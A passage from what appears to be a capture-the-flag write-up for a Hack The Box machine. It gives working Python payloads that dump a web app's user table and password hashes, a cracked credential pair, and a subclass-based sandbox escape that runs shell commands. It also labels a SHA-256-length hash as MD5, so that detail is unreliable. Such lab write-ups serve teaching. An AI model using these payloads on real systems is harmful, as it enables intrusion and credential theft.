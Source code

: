 ```python
print(locals())
```

After analyzing the local scope, I discovered we had access to database models, including a `User` model.

### Database Extraction

Using SQLAlchemy's ORM capabilities through the SSTI vulnerability:

```python
print([(user.id, user.username, user.password) for user in User.query.all()])
```

**Output:**
```text
[(1, 'admin', '5f4dcc3b5aa765d61d8327deb882cf99'), 
 (2, 'martin', '8c6976e5b5410415bde908bd4dee15dfb167a9c873fc4bb8a81f6f2ab448a918')]
```

### Password Cracking

Using [CrackStation](https://crackstation.net/) to crack the MD5 hash:

![CrackStation Results](/assets/img/htb-code/crackstation.png)
_Successfully cracked martin's password hash_

**Credentials Found:**
```text
martin:nafeelswordsmaster
```

### User Flag

Before pivoting, we can extract the user flag directly through SSTI using Python's subprocess module:

```python
print(''.__class__.__base__.__subclasses__()[317]('cat /home/app-production/user.txt', shell=True, stdout=-1).communicate())
```
